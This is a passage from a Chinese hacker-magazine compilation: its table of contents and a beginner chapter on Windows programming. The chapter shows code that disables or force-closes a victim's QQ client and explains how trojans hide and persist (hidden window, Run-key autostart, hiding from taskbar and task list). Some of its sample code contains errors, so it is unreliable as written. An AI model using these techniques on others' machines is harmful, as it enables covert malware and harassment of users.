# 编程解析精粹

---

## 黑客防线 专辑

## 36名黑客编程技术实例经验

### 编程解析精粹

黑客防线 编辑部

本书由劲风、多多、赵春开、卫顺盛、猪头三、空傅、落叶夏日、清风笑、孙宇哲、刘萱、李磊、王丽文、大皮球、乱世天使、宫城良田、田丰、白云杰、紫天星、空傅、右右、左左、shocker、TOo2y、zvrop、noir、psbeyond、ey4s、cexo、L.JIANG、任兀、GNn、Flyingfox、Happyman、Heibao、Refdom、coolweis等（排名不分先后）经验丰富的作者参与编写。

在此，我们衷心感谢他们，并祝他们事业、技术蒸蒸日上。

## 内容提要

《黑客防线》作为全国惟一的网络及计算机安全普及性刊物，长期以来因其专业、权威而备受读者欢迎，其每年度的精华本也是很多读者的首选读物。更有很多读者多次反映：《黑客防线》应该将其创刊以来的所有技术文章分类整理，做成针对性很强的专辑形式，便于爱好者收藏和查阅。所以，我们经过反复考虑，聚集《黑客防线》的精华文章，将其分为5个专辑出版，希望能够帮助大家。

《编程解析精粹》这本专辑以全实例的形式介绍了常规黑客攻防程序编程的思路，其同一工具用不同语言来实现，同一工具的不同编写思路，真正是仁者见仁，智者见智，每篇文章都有其精华所在，都是作者长期以来的经验总结。内容包括了远程控制程序开发、扫描器编程实现、轻松编写后门程序、系统原理编程、攻击程序开发、加密软件的开发、网络程序开发、其他程序分析等几部分，几乎包括了与常规黑客类编程相关的方方面面。

光盘包括了编程工具、调试工具、编译工具、网络编程、安装制作、补丁制作、数据库类、综合控件、网络控件、DBF控件、系统控件、文件控件、界面控件、压缩控件、其它控件、代码文章等十六大类的工具资料，实是编程爱好者不可多得的好助手。另外，36名作者的50多篇编程技术实例代码和程序都收录在光盘内，请读者一定保存好光盘，以便阅读时候可以参照，可以完全吸收作者的经验，能够获取更多的知识。

- 策划：《家庭电脑世界》编辑部
- 制作：《黑客防线》编辑部
- CN15-1192/TP
- 编辑：郭聪辉 徐生震 刘峰
- 技术支持电话：010-62141445-8030
- E-mail: hacker@hacker.com.cn
- 制作：王凤

地址：北京市中关村邮局008信箱
《黑客防线》邮购部
邮编：100080
发行部电话：010-62141446
发行部传真：010-62141360
E-mail: yougoubu@hacker.com.cn
网址：http://www.hacker.com.cn
CD+书：19.8元

## 目 录

## 第1章 黑客编程基础

- 1.1 Windows黑客编程基础 …………………… 5
- 1.2 Socket编程的基础和基本过程 …………………… 14

## 第2章 远程控制程序开发

- 2.1 自己动手做木马 …………………… 19
- 2.2 用VB来编写监听木马探测以及常规扫描的程序 …………………… 24
- 2.3 用VB自制木马 …………………… 25
- 2.4 VB编制木马的3点补充技巧 …………………… 27
- 2.5 木马程序C#做 …………………… 32
- 2.6 木马伪装如此简单 …………………… 38
- 2.7 木马，是如何隐藏通讯方式的 …………………… 46
- 2.8 你的木马有没有关联文件 …………………… 49
- 2.9 如何实现根据用户配置生成木马服务器端 …………………… 51
- 2.10 如何制作无进程的木马 …………………… 54
- 2.11 Windows“木马”技术浅析 …………………… 58
- 2.12 与嵌入式木马的亲密接触 …………………… 60

## 第3章 扫描器编程实现

- 3.1 CGI扫描器的简单实现 …………………… 71
- 3.2 透视CGI扫描器的原理和实现过程 …………………… 74
- 3.3 用C#实现网段扫描 …………………… 75
- 3.4 利用编程获取服务器信息 …………………… 78
- 3.5 通过编程实现对目标主机的简单探测 …………………… 81
- 3.6 探测Windows主机的NetBIOS信息 …………………… 89
- 3.7 代码直击IPC扫描种植器 …………………… 91

## 第4章 轻松编写后门程序

- 4.1 三无后门轻松实现 …………………… 95
- 4.2 写个简单的Telnet后门软件 …………………… 102
- 4.3 最前端的三线程开发揭密 …………………… 107
- 4.4 Windows服务与后门原本如此 …………………… 110
- 4.5 用C实现克隆账号 …………………… 115
- 4.6 打造自己的键盘记录软件 …………………… 120

## 第5章 系统原理编程

- 5.1 NT系统进程知多少 …………………… 124
- 5.2 NT系统进程随意杀 …………………… 134
- 5.3 利用脚本编程格式化输出转存系统日志 …………………… 145
- 5.4 通过钩子实现定时锁定系统 …………………… 146
- 5.5 学做个性的Windows任务管理器 …………………… 153

## 第6章 攻击程序开发

- 6.1 用VB打造“QQ密码窃取器” …………………… 160
- 6.2 体验QQ轰炸机的开发乐趣 …………………… 164
- 6.3 网络欺骗攻击 …………………… 168
- 6.4 一个批处理炸弹的程序揭密 …………………… 171
- 6.5 一个邮箱炸弹的编程实现 …………………… 172
- 6.6 利用MS漏洞编写炸弹与恢复方法 …………………… 173
- 6.7 网页炸弹的制作原理与安全防范 …………………… 179
- 6.8 轻松破解Mail账号密码 …………………… 181
- 6.9 Perl编写密码破解工具DIY …………………… 188
- 6.10 非法探取密码的原理及其防范 …………………… 191
- 6.11 构造自己的数据包发送数据 …………………… 194
- 6.12 让DNS ID欺骗不再来 …………………… 197

## 第7章 加密软件的开发

- 7.1 自己设计伪装加密软件 …………………… 201
- 7.2 PicureMagic-CHINA造 …………………… 206
- 7.3 用挂接技术实现对文件的加密 …………………… 211

## 第8章 网络程序开发

- 8.1 FTP客户端编程简谈 …………………… 215
- 8.2 打造专用的远程文件传输器 …………………… 218
- 8.3 ARP协议分析 …………………… 219
- 8.4 详谈调用Winpcap驱动写Arp多功能工具 …………………… 221

## 第9章 其他程序分析

- 9.1 突破网关限制 随心所欲QQ …………………… 226
- 9.2 网关封锁任我破 …………………… 230
- 9.3 ADO连接字符串集 …………………… 234
- 9.4 使用ASP.NET实现图像上传 …………………… 239

## 第1章 黑客编程基础

## 1.1 Windows黑客编程基础

上面的题目带有“黑客”两个字，请大家别误会了，其实没有多少是讲黑客的，这完全是一篇菜鸟级的编程杂谈，如果您已是高手，就不必在此浪费时间了。

前几天在网上看了“病毒”兄写的《WIN下编程须知》一文，觉得在编程方面要写出一篇适合初学者们看的入门级文章的确很重要，可惜病毒兄只在该文里介绍了线程、消息、句柄等几个基本概念。很多初学者看完以后对编程还是感到很迷惑，一个从来没有写过程序的人如何入门？如何在短时间内写出自己的程序来？笔者带着这些问题写了这篇文章。这也是笔者在学习编程的初期所遇到的困惑，在此根据笔者的个人理解将其整理成文，希望能引起广大菜鸟们的共鸣，对初学者们有所帮助。

从理论上说，任何一门语言都可以在任何一个系统上编程，只要找到该系统提供的“接口”和对系统内部机制有深入的了解就可以了，至少我是这么认为的。正如C语言可以在Windows下编程，也同样可以在Linux上大放异彩一样。

编程是一项很繁杂的工作，除了应用编程工具之外，了解系统本身内部工作机理非常重要，这是你写出稳定兼容的程序所必不可少的前提条件。你要在哪一种系统上编程就要对该系统的机制进行研究，至少你应该知道一个程序在那个系统上是如何运行的。

### 一、了解Windows 内部机制

Windows 是一个“基于事件的，消息驱动的”操作系统。

在Windows下执行一个程序，只要用户进行了影响窗口的动作（如改变窗口大小或移动、单击鼠标等），该动作就会触发一个相应的“事件”。系统每次检测到一个事件时，就会给程序发送一个“消息”，从而使程序可以处理该事件。每个Windows 应用程序都是基于事件和消息的，而且包含一个主事件循环，它不停地、反复地检测是否有用户事件发生。每次检测到一个用户事件，程序就对该事件做出响应，处理完再等待下一个事件的发生。

Windows 下的应用程序不断地重复这一过程，直至用户终止程序，用代码来描述实际上也就是一个消息处理过程的while循环语句。

下面便简单介绍一下与 Windows 系统密切相关的几个基本概念：

- 1.窗口：

这是我要说的第一个概念。似乎是地球人都知道的事儿了，窗口是Windows本身以及Windows 环境下的应用程序的基本界面单位，但是很多人都误以为只有具有标题栏、状态栏、最大化、最小化按钮这样标准的方框才叫窗口。其实窗口的概念很广，例如按钮和对话框等也是窗口哦，只不过是一种特殊的窗口罢了。

从用户的角度看，窗口就是显示在屏幕上的一个矩形区域，其外观独立于应用程序，事实上它就是生成该窗口的应用程序与用户间的直观接口；从应用程序的角度看，窗口是受其控制的一部分矩形屏幕区。

应用程序生成并控制与窗口有关的一切内容，包括窗口的大小、风格、位置以及窗口内显示的内容等。用户打开一个应用程序后，程序将创建一个窗口，并在那里默默地等待用户的要求。每当用户选择窗口中的选项，程序即对此做出响应。

- 2.程序：

通常说的程序都是指一个能让计算机识别的文件，接触得最多的便是.exe型的可执行文件，这个不难理解。

- 3.进程：

说到进程，学过《操作系统》的人都很清楚，所谓进程就是应用程序的执行实例（或称做是一个执行程序）。需要注意的是：进程是程序动态的描述，而上面说到的程序是静态的描述，两者有本质的区别。举个例子，从网上Down了一个瑞星杀毒软件到C盘但没有运行，那个.exe可执行文件叫做程序，它是一个二进制码的文件。一旦双击了exe文件图标运行程序，那个“正在运行着的瑞星杀毒”便称为进程，它在双击的那一刻被系统创建，当你关机或者在任务栏的图标上单击鼠标右键选“退出”时，进程便消亡，彻底结束了生命。进程经历了由“创建”到“消亡”的生命期，而程序自始至终存在于你的硬盘上，不管你的机器是否启动。

- 4.线程：

线程是进程中的一个执行单元，同一个进程中的各个线程对应于一组CPU指令、一组CPU寄存器以及一堆栈。进程本来就具有动态的含义，然而实质上是通过线程来执行体现的，从这个意义上说，Windows中进程的动态性意义已经不是很明显了，只算是给程序所占的资源划定一个范围而已（个人观点，纯属个人理解，不必引起争议！），真正具有动态性意义的是线程。以前在大二学习操作系统课的时候就有个同学跟笔者提起这点，笔者还跟他驳得面红耳赤呢！现在想想，觉得很有道理，不得不佩服那位同学对Windows内部机制了解得如此清楚。

之所以在此花如此多的篇幅说线程，是因为下面将要介绍到多线程编程技巧，如果不理解这点，那就很难应用到实践上，希望大家明白。

- 5.消息：

我们几乎做每一个动作都会产生一个消息，在用鼠标指点江山的今天，鼠标被移动会产生WM_MOUSEMOVE消息，鼠标左键被按下会产生WM_LBUTTONDOWN的消息，鼠标右键按下便产生WM_RBUTTONDOWN消息等等。所有的这些都可以通过GetMessage，SendMessage等函数得到，以后的操作中我们会经常接触到这些函数。

- 6.事件：

何谓事件？从它的字面意思我们就可以明白它的含义，如在程序运行的过程中改变窗口的大小或者移动窗口等，都会触发相应的“事件”。

- 7.句柄：

单单一个“柄”字便可以解释它的意思了，我们天气热摇扇子的时候只要抓住扇柄便可以控制整个扇子的运动了，在程序中也差不多是这个意思。通常一个句柄就可以传递我们所要做的事情。有经验的读者肯定清楚，编写程序总是要和各种句柄打交道的，句柄是系统用来标识不同对象类型的工具，如窗口、菜单等，这些东西在系统中被视为不同类型的对象，用不同的句柄将他们区分开来。

看看C++教材中是如何给句柄下定义的：“在Win32里，句柄是指向一个无值型对象（void*）的指针，是一个4字节长的数据”。虽然我对它的本质是什么还是很迷惑，但我知道句柄并不是一个真正意义上的指针。从结构上看，句柄的确是一个指针，尽管它没有指向用于存储某个对象的内存位置（很多书都这么说，这正是我的迷惑所在），而实际上句柄指向的是一个包含了对该对象进行引用的位置。在编程时，只要抓住了对象的句柄就可以对该对象进行操作了（我在《一个简单木马程序的编写与伪装策略》中说到的对QQ密码的截获就是要找到QQ登陆窗口的句柄后才开始截密行动的）。下面再举个例子来说明句柄的运用：编一个程序，使QQ登陆窗口的号码框和密码框均变黑，相关代码及解释：

```
void __fastcall TForm1::FormCreate(TObject *Sender)
{
HWND hCurWindow, HC, HE;//定义三个窗口句柄变量，hCurWindow 用于存放QQ用户登陆窗口的
句柄，HC、HE 分别存放号码框和密码框的句柄。
if((hCurWindow= FindWindow(NULL,"QQ用户登录"))!=0||(hCurWindow=FindWindow(NULL,"OICQ
用户登录"))!=0)
{//很明显，调用 FindWindow () 函数去获得QQ 登陆窗口的句柄
String str;
str.sprintf("0x%x",hCurWindow);
}
TCHAR wClassName[255];//类名变量
HC=GetWindow(hCurWindow, GW_CHILD);//得到号码框的句柄
HE=GetWindow(HC, GW_HWNDNEXT);//接着得到密码框的句柄
GetClassName(HE, wClassName, sizeof(wClassName));//得到类名
GetClassName(HC, wClassName, sizeof(wClassName));//得到类名
EnableWindow(HE,false);//使窗口失效
EnableWindow(HC,false);//使窗口失效
}
```

以上代码在C++ Builder下编译通过，只要运行此程序，QQ登陆窗口的号码框和密码框马上变黑色，如图1-1所示，无非是EnableWindow () 函数所起的作用。

你还可以添加一个Timer控件，将上面的代码copy到void __fastcall TForm1::Timer1Timer(TObject *Sender)函数中，并在后边加上这一句代码：SendMessage(hCurWindow,WM_CLOSE,0,0); 这就使得QQ一启动就关闭，让别人永远也用不了QQ，挺有趣儿的（请参考光盘内的程序）。

- 8.API与SDK：

API是英文 Application Programming Interface 的简称，意为“应用程序接口”，泛指系统为应用程序提供的一系列接口函数。其实质是程序内的一套函数调用，在编程的时候可以直接调用，而不必知道其内部实现的过程，只知道它的原型和返回值就可以了，此外，手头经常放着一本“Windows API大全”之类的书也是必不可少的，不然你根本不知道哪些API是干什么用的，瞎编也编不出什么东西来。在后面我们会介绍调用API编程的例子，调用API编程工作虽然烦琐，但由于API函数都被封装在dll库里，程序只有在运行的时候才能调用的，因此程序的体积小而且运行效率高。

SDK是英文 Software Development Kit 的缩写，指“软件开发工具包”，在防火墙的设计中就经常涉及到SDK。

有关基本的概念就谈这些，那些C/C++的基本语法、什么是面向对象等知识请大家查阅相关的书籍，此类书籍各大书店已汗牛充栋，不再多叙。下面直接谈谈语种和编程工具的选择问题，这也是初学者们最迷惑的问题。

### 二、编程语言以及工具的选择：

从上面的介绍我们对Windows 有了进一步的了解，现在就该开始行动了，选择要学的语言和工具是第一步，而且是非常重要的一步工作，笔者建议一切以简单、易接受为原则，不然你会信心大减的，何必要跟自己过不去，自讨苦吃呢？

在开始的时候很多人都感到迷惑，目前的编程语言那么多，有C、C++、C#、Java、汇编、Html等等，究竟学哪些好呢？最开始我该学什么呢？甚至有人将VC、C++ Builder也列为两种不同的语言！这些都是对编程语言缺乏了解造成的。笔者开始的时候也犯过同样的错误，曾经给自己写过一份计划书：先学C语言，接着学C++、C#、Java、汇编、VB、VC、C++ Builder……，哪一种语言用多少时间去专攻等等，现在回想起来觉得多么的可笑！只要学得精，一门就够了。从实用的角度来讲，C++是最好的选择（个人意见，其实每一种语言都很好），而VC和C++ Builder是其相应开发工具的两大主流，笔者极力推荐初学者使用C++ Builder，因为很容易上手，如果一下子就用VC的话，也许会打击你的自信心。

### 三、谈谈促进编程能力提高的两个途径

如果你是一个黑客技术的狂热者的话，到雅虎去搜索黑客教程的时候就会发现，很多的中文教程在谈到如何进行黑客编程时，十有八九都会介绍以下两大最佳途径：

- 一、读程序；
- 二、写程序，并且都提出了教程作者的看法，下面我想谈谈这方面的个人观点。

#### 1.读程序：

我将读程序放在前面是有原因的。在你没有阅读过一份完整的源代码之前，你别指望能写出有多好的程序来！这是对每一位初学者的忠告也是警告，而且必须具备一定的语言基础知识，这里的基础知识主要是指语法知识，最起码要能读懂别人的程序的每一行意思。有没有程序的设计思想，在这个时期并不重要，只要具备一定的语法基础就可以了，思想可以通过阅读完别人的源程序后分析得来。

记得在大一学习C语言的时候，我们都很重视语法的学习，整天都看教材、做练习，而且赶在老师的讲课前预习，课后又复习巩固，将一些语法点记得滚瓜烂熟，可后来一到做课程设计的时候，坐在电脑面前简直是老鼠拖鸡蛋——无从下手了，而且不断地问自己：“我平时的努力哪去了？语法都会了呀，怎么还是做不出程序来？”相信很多人都像笔者以前那样，错误地以为学会了语法就等于掌握了编程。

编程的能力包括经验、技巧、耐心等几个因素，而并非想象中的那样简单，更不要以为编程就是简简单单的写程序！

其实学一门语言并不需要刻意去记那些条条框框的语法，在看代码的时候，遇到了不明白的地方再去查相关的资料，一点一点补充基础知识再配合源程序的思路，这时的理解才是最深刻的，我可以肯定地说，这个时候对语法的接受程度绝对比你刚开始时的死记效果要好！

读程序也不能单纯地读，要真正做到“俯而读，昂而思”。好的代码是百读不厌的，比如Shotgun的那道构造洪水Ping攻击的代码，我至少读了20遍。笔者喜欢将从网上搜集来的代码打印到纸上（尽管学校的打印费贵得要命，打一份代码就得花去十几块甚至几十块大洋），然后边看边做好眉批，遇到一个新函数记下它的功能，一些忘记了的知识在旁边标出来，还可以写上对程序的看法等等。特别是遇到了一些新的API函数，最好标出来，对你以后编程的时候也许会用得着，最后别忘了分析一下程序的思路，这样对你以后编写类似的程序是很有帮助的。

#### 2.写程序：

问题可谈到点子上了，学那么多语言，读那么多程序最终还不是为了写程序，做出适合需要的软件来？“君子性非异也，善加于物也”，笔者认为一切从借鉴开始，先是修改别人的程序，等到有了一定的程度再写出属于自己的程序。

刚开始写程序，不要奢望一下子写出很出色的程序来，“万丈高楼平地起”，编程贵在动手，只要你动手去写了，就算只有一句“printf(“Hello!”);”也是一次进步！此外，还要依照自身的能力循序渐进地写，开始的时候写一点功能简单的、篇幅短小的代码，力求简洁、完整，“麻雀虽小，但五脏俱全”，然后在此基础上进行扩充，一点一点添加功能，下面笔者摘录一位国内一流编程高手、“豪杰超级解霸”的作者梁肇新的编程心得，请大家看看，一个成功的程序员是如何写程序的，希望对广大菜鸟有所启发。写程序的方法：在Win98的环境中，先写主干，用最少的代码实现最基本的功能。然后一点点添加功能，每加一点都要调试。尽量少用动态分配、全局变量。充分利用操作系统直接提供的API。在Win98下调试通过之后，再在Win95下调试通过，然后是Win97，WindowsME，WinNT4.0。这样才能写出稳定、快速的程序。

给程序员的建议：

- 1、不要急于求成，这样往往欲速不达。
- 2、不要什么东西都想学，什么都没掌握。
- 3、每天都要自我总结，分析自己的错误率和废码率，不断加强自我管理。
- 4、代码格式很重要。代码要规范、严谨，效率要高。
- 5、不要盲从简单的开发工具（这点笔者不是很同意，最起码要有一定的功底的人才敢这么说）。
- 6、有了成果要公开，不要舍不得，不然很快会过时的（以上两段摘自《程序员》增值合订本2001.上册P18，请读者前往参考）。

## 四、黑客编程的几个基本技巧

以下将要谈到的几个基本技巧很重要，虽然对于编程高手来说这是在玩小孩子把戏，但对于一位初学者，掌握以下几个技巧将为你的编程扫清道路，而且很容易编写出有趣的程序，培养你对编程的兴趣。

### 技巧1.学会修改注册表。

相信大家都知道当浏览了一些网页恶意代码，IE标题、默认主页等被改得面目全非，这就是通过改动注册表来更改系统设置的例子。Windows中的注册表是个好东东，它是Windows系统的灵魂，是许多软件记录数据的地方（当然也包括Windows本身）。windows通过它记录大量的数据，然后在下一次启动时再读取相应的数据来设置系统。通过控制注册表就可以控制整个系统，所以很多的黑客程序都在注册表上动手脚（尤其是木马程序和恶作剧程序），学会修改注册表可以实现一些有趣而强大的功能。我们完全可以通过编程来操作注册表，达到与手动更改注册表编辑器产生一样的效果。“超级兔子”中的大部分功能就是通过修改注册表来完成的。操作注册表有专门的API函数，大家可以参考有关资料，下面笔者以C++Builder为例说明如何在程序中操作注册表：

程序二：编程修改IE标题内容

新建一个工程，在Unit1.h文件中包含Registry单元：

```
#include <Registry.hpp>
```

然后就可以在.cpp文件操作注册表了，接着在窗体的OnCreate()里加入以下代码（你可以在try{}里面加入任何操作注册表的代码）：

```
TRegistry* Registry;
Registry = new TRegistry();//创建一个TRegistry类型的对象Registry，用于修改注册表。
try{
Registry->RootKey = HKEY_CURRENT_USER;//设置主键，这是必不可少的，设置好主键后，就可以操作这个主键下所有的键值了。
if( Registry->OpenKey("Software\Microsoft\Internet Explorer\Main",FALSE))//调用OpenKey()打开括号里所指的键
{
Registry->WriteString("Window Title","台湾是中国的一部分，世界上只有一个中国！");//调用WriteString()往注册表里写入IE标题
Registry->CloseKey();//关闭该键
}
else
{//如果打开失败的话
Registry->CreateKey("Software\Microsoft\Internet Explorer\Main"); //就调用CreateKey()新建上述键
Registry->WriteString("Window Title","台湾是中国的一部分,世界上只有一个中国!"); //再写入IE标题内容
Registry->CloseKey(); //最后关闭该键,这个也不能忽视,它跟上面的OpenKey成对使用的
}//End of try
__finally
{//要是出错,跳到这里处理
Registry->CloseKey(); //关闭所要打开的键
delete Registry; //销毁Registry对象,释放资源。
}
```

编译运行上面的代码就可以将IE的标题改为“台湾是中国的一部分,世界上只有一个中国!”了。笔者写了个小程序,可以测出当前的IE标题和默认主页是什么,并可随意修改他们,还可以禁止别人修改你的默认主页和注册表编辑器,运行界面如图1-2所示(详细的代码请参考黑防的光盘)。

### 技巧2.调用API编程

其实这是最简单的,API是系统在DLL里为我们提供的程序接口,可以直接调用的。只要我们有一本《Windows API大全》之类的书就足够了,下面举个简单的例子:

### 程序三:调用API函数隐藏Windows的任务栏:

```
HWND WndHandle; //定义句柄类型变量
WndHandle=FindWindow("Shell_TrayWnd",NULL); //调用API函数FindWindow()获得任务栏的句柄
ShowWindow(WndHandle,SW_HIDE); //再调用API函数ShowWindow()隐藏任务栏
```

大家看到,在上面调用API函数FindWindow()和ShowWindow()的过程中,只要我们知道函数的名字和括号里的参数是什么就行了,至于实现的过程不必理会,也轮不到我们这些菜鸟去理会。学会调用API,你就可以写出功能强大的程序来,这一技巧对于初学者来说是必须掌握的(代码请参考黑防光盘)。

### 技巧3.多线程编程技术

通过上一篇的介绍,大家都很清楚线程的概念了,它是进程内部的一个执行单元(如一个函数等),上期说了那么多理论,现在该派上用场了。编写多线程应用程序是指使程序在运行时创建多个线程并发地运行于同一个进程中。今年6月份横空出世的“中国黑客”病毒不是采用了全球独创的“三线程技术”吗?虽然笔者没机会分析它的样本代码,但此种病毒的工作效率如此之高是与它的多线程技术分不开的。

- 使用多线程技术编程有如下优点:
①提高CPU的利用率。由于多线程并发运行,可以使用户在做一件事情的时候还可以做另外一件事。特别是在多个CPU的情况下,更可以充分地利用硬件资源的优势:将一个大任务分成几个小任务,由不同的CPU来合作完成。
②采用多线程技术,可以设置每个线程的优先级,调整工作的进度。

清楚了使用多线程技术的优势之后,下面便来谈谈如何在C++ Builder环境下开发多线程的应用程序,在C++ Builder环境中,通过TThread类就可以很方便地编写多线程应用程序(但不能直接使用,因此要派生新类),具体流程如下：
从TThread 类派生出一个新的线程类->创建线程对象->设置线程对象的属性项->挂起或唤醒线程（根据具体情况操作）->结束线程。

要说明的一点是：在应用程序中要合理地设置线程的优先级。不要因为某些线程的优先级很高而使其他一些线程因为等不到CPU的处理时间而被“饿死”,也不要因为线程的级别都差不多而导致的频繁切换花费大量的CPU时间。（本段引自《C++ Builder 5 编程实例与技巧》P284）。

### 技巧4.让程序实现后台监控

这是一个很基本的技巧。如果你是一个木马程序的爱好者，当你阅读众多的木马源程序的时候，就会发现100%的木马程序都很注意自身的后台监控本领，也就是隐身技术，面对不同的系统要施展不同的对策才能实现。很多杀毒程序就采用了这种后台监控技术，使程序随着系统的启动而运行，然后在后台悄悄地监视系统的一举一动，一发现有不对路的程序就把它“揪”出来示众。实现程序的后台监控技术有如下几个关键：

- ①正常运行时，不显示程序的窗体；
- ②系统每次启动都自动运行程序一次；
- ③程序图标不显示在任务栏上；
- ④不显示在按Ctrl+Alt+Del 调出的任务列表中；
- ⑤通过热键可以调出隐藏的窗体

实现方法：对于①，要不显示窗体，我们可以编辑WinMain函数，设置Show MainForm值为False就可以隐藏程序的窗体了。参考代码：Application->ShowMainForm = false；对于②，可以利用技巧1所介绍的方法修改注册表，键值如下：HKEY_LOCAL _MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run，使用的是WriteString（）方法。这是冰河等多种旧木马惯用的启动手段之一（当然还有文件关联、注入dll等方法）；对于③，要使程序图标不显示在任务栏上，也很简单，调用API函数SetWindowLong 可以让程序运行后不出现在任务栏里，不过要放在窗体的OnCreate（）里面。代码如下：

```
SetWindowLong(Application->Handle, GWL_EXSTYLE, WS_EX_TOOLWINDOW);
```

对于④，调用RegisterServiceProcess API 函数将程序注册成为一个服务模式程序，让它运行在较高的优先级下，就不会出现在程序列表中（对Win9X有效，WinNT/2000/XP下无效）。具体的代码请参考笔者的《一个简单木马程序的编写与伪装策略》一文，不在此重叙（请参考《黑客防线》2002年第6期）。对于⑤，要先定义捕获Windows消息WM_HOTKEY的钩子函数，然后向Windows加入一个全局原子，并保留其句柄，最后向Windows登记热键，可以通过调用API函数RegisterHotKey来实现。

### 技巧5.使用定时触发器

在C++ Builder 环境下，定时触发器即Timer控件，有时候我们希望程序隔一段时间重复执行相同的动作，比如对QQ密码截获的时候，就要隔一段间隔寻找一次QQ登录窗口。在C++ Builder 中，只要将执行这些动作的代码放到一个Timer中去就OK了。

听说“中国黑客”病毒运行几分钟后就自动创建一个新的线程，用于寻找OICQ的“发送消息”窗口，在10分钟内一直在找，一旦找到就将“去他妈的法轮功”等带有政治色彩的言论发送给受害者QQ上的好友，10分钟后自动结束该线程。我想在查找“发送消息”窗口的10分钟内就运用了定时器，该病毒是用汇编开发的。可是在C++ Builder中是如何运用的呢？其实控件的出现使得编程变得很简单，添加一个Timer控件，设置几下控件的属性，双击Timer控件，将代码放到里面去就行了。程序执行的时候，相隔指定的时间就重复执行里面的代码了。实际上笔者在上一期的“程序一”中寻找QQ登录窗口时，就运用了定时器，请读者参考光盘中的源程序。

有关编程技巧的介绍到此为止，请读者参考另类书籍，掌握更多的黑客编程技巧，编写出受欢迎的黑客程序来。

## 五、Socket 编程与网络通信基础

由于本文的主题是“黑客编程基础”，而黑客是互连网上“来无影，去无踪”的黑衣人，如冰河、网络神偷等黑客程序都是基于互连网的，谈黑客编程离开网络编程就会大失其味。所以，下面接着谈谈网络编程，大凡基于网络应用的程序都离不开Socket。

Socket 为套接字之意，是作为计算机与计算机之间通信的接口。有关Socket的概念在第6期《黑客防线》的《Socket 编程的基础和基本过程》一文中有详细的描述，请大家参考，不在此多叙。需要指出的是：Winsock是访问众多的基层网络协议的一种接口，在每个Win32平台上，它都以不同的形式存在着，Winsock 是网络编程的接口，不是协议，这是容易弄错的地方。

现在来谈谈Winsock 编程的过程，大凡在Win32平台上的Winsock编程都要经过下列的基本步骤：定义变量->获得Winsock版本->加载Winsock库->初始化->创建套接字->设置套接字选项->关闭套接字->卸载Winsock库，释放所有资源。

下面以一道极其简单的程序来说明如何进行Winsock编程。程序四：编一个程序来获取本地机器的IP地址。

使用Winsock提供的API函数是最基本的网络技术，为了给初学者看个清楚，笔者打算在Visual C++和C++ Builder下各写一个，便于大家区分这两种不同的编程工具的特性（对于本程序来说，他们都差不多，而对于某些通信程序，他们实现起来就相差很远了，但本质是差不多的）。先来看Visual C++ 下的源程序，实现步骤：打开Visual C++ ，从“File”菜单中的“New”新建一个工程，选中“Win 32 Console Application”，意思是说生成的是Win32的控制台程序。另外，初学者要注意一点，只要程序中用到了 Winsock API 函数，都要在工程设置的 Link 中增加 Ws2_32.lib 文件，不然程序将不能通过编译，方法是：点击“Project”菜单，选择“Settings... ALT+F7” ，在弹出的“Project Settings”对话框右侧选“Link”标签，再在“Project Options”下方的编辑框中增加Ws2_32.lib文件，点“OK”就可以了。

加载好文件之后，就可以在CheckIP.cpp文件里加入以下代码了：

```
//-------Begin from -------
// 包含需要使用的头文件
#include "stdafx.h"
#include "windows.h"
#include <winsock.h>
#include "stdio.h"
#include "stdlib.h"
#include "string.h"
void CheckIP(void) // 定义 CheckIP () 函数，用于获取本机 IP 地址
{
    WORD wVersionRequested;// WORD 类型变量，用于存放 Winsock 版本的正确值
    WSADATA wsaData;
    char name[255];// 定义用于存放获得的主机名的变量
    CString ip;// 定义 IP 地址变量
    PHOSTENT hostinfo;
    wVersionRequested = MAKEWORD( 2, 0 );
    // 调用 MAKEWORD () 获得 Winsock 版本的正确值，用于下面的加载 Winsock 库
    if ( WSAStartup( wVersionRequested, &wsaData ) == 0 ) {
// 现在是加载 Winsock 库，如果 WSAStartup () 函数返回值为 0，说明加载成功，程序可以继续往下执行
if( gethostname ( name, sizeof(name)) == 0) {
// 如果成功地将本地主机名存放人由 name 参数指定的缓冲区中
if((hostinfo = gethostbyname(name)) != NULL) {
// 这是获取主机名，如果获得主机名成功的话，将返回一个指针，指向 hostinfo，hostinfo 为 PHOSTENT 型的变量，下面即将用到这个结构体
LPCSTR ip = inet_ntoa (*(struct in_addr *)*hostinfo->h_addr_list);
// 调用 inet_ntoa () 函数，将 hostinfo 结构变量中的 h_addr_list 转化为标准的点分表示的 IP 地址 (如 192.168.0.1)
printf("%s\n",ip);// 输出 IP 地址 } }
WSACleanup( );// 卸载 Winsock 库，并释放所有资源 } }
int main(int argc, char* argv[])// 主函数，程序的入口
{
CheckIP();// 调用 CheckIP() 函数获得、输出 IP 地址
return 0;// 由于 main () 定义为 int 型，所以应带回一个 int 型的数值
}
```

程序运行界面如图 1-3 所示：

下面接着来看看在 C++ Builder 下如何实现，其实两者的思想是一样的，只是在 C++ Builder 下实现的界面友好点而已，实现方法：打开 C++ Builder 5，默认情况下已经新建一个工程，保存这个工程文件就可以了，构造如图 4 所示的界面，在相应之处添入下面的代码即可。

程序代码：

```
// 包含头文件
#include <vcl.h>
#include <WINSOCK2.H>
#pragma hdrstop
#include "Unit1.h"
#pragma package(smart_init)
#pragma resource "*.dfm"
TForm1 *Form1;
__fastcall TForm1::TForm1(TComponent* Owner)
: TForm(Owner)
{ }
void TForm1::GetHostIpAddress()
{// GetHostIpAddress () 获得本机IP 地址
struct hostent *thisHost;
struct in_addr in;
char MyName[80];
char *ptr;
WORD wVersionRequested;
WSADATA wsaData;
int err;
wVersionRequested = MAKEWORD( 2, 0 );
err = WSAStartup( wVersionRequested, &wsaData );
if( err != 0 )
return;
if(LOBYTE( wsaData.wVersion ) != 2 ||
HIBYTE( wsaData.wVersion ) != 0 )
{WSACleanup( );
return; }
if(gethostname(MyName,80)==SOCKET_ERROR)
return;
if(!(thisHost=gethostbyname(MyName)))
return;
memset((void *)&in,sizeof(in),0);
in.s_addr=*((unsigned long *)thisHost->h_addr_list[0]);
if(!(ptr=inet_ntoa(in)))
return;
WSACleanup( );
Edit1->Text=AnsiString(ptr);}
void __fastcall TForm1::FormCreate(TObject *Sender)
{ GetHostIpAddress();}
void __fastcall TForm1::Button1Click(TObject *Sender)
{Close();// 添加一个“确定”按钮，点击即关闭程序。}
```

程序在 C++ Builder 5 下编译通过，运行界面如图1-4所示。通过比较你会发现他们是大同小异的，对于同一程序，两者工具各有秋千，至于选择哪种由你决定，最好是两者相得益彰。

